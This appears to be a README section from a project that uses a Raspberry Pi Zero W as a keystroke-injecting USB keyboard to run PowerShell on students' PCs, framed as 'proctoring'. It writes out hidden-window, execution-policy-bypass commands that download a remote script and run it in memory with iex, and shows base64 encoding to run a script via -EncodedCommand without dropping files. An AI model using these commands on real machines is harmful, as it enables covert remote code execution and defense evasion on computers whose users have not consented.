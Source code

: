 # 1. Fileless Execution

**Prerequisite:**
- The Raspberry Pi has already been configured to achieve composite mode (See Libcomposite for more info)

Using the Raspberry Pi Zero W, HID mode, I can then open up Powershell using Win + R and send in keystrokes command from the examples below to conduct proctoring without needing to copy external binary executable to devices. Instead, and run them purely in memory. 

Reference materials:
- https://www.mcafee.com/enterprise/en-us/assets/solution-briefs/sb-fileless-malware-execution.pdf
- https://www.varonis.com/blog/fileless-malware
- https://www.linkedin.com/pulse/go-hell-powershell-powerdown-attacks-kirtar-oza-cissp-cisa-ms-

## 1.1. Utilizing DownloadString and Invoke-Expression 
```
powershell.exe -executionpolicy bypass -w hidden "iex(New-Object System.Net.WebClient).DownloadString('<proctoring script url>')
```
Executing the above allow us conduct proctoring directly in to the memory of the Student's PC.  
This is possible because of two Powershell command 
- "DownloadString" where it does not download any file to disk but copies content of the remote file. 
- "Invoke-Expression a.k.a iex" where it runs specified string as a command.

## 1.2. Utilizing EncodedCommand
To do this we must first, encode our script into base64 using the script below and taking note of the encoded string
```
$command = '<the whole script>'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
write-host $encodedCommand
```
After we know the encoded string, runnning the command below will allow us to conduct proctoring without needing to drop any files into the student's PC. In this case, we would not even need to have a remote script stored anywhere
```
powershell.exe -executionpolicy bypass -w hidden -e <base64encodedstring>
```
The EncodedCommand a.k.a -e, will read the following given as a base64 string and proceed to execute it 
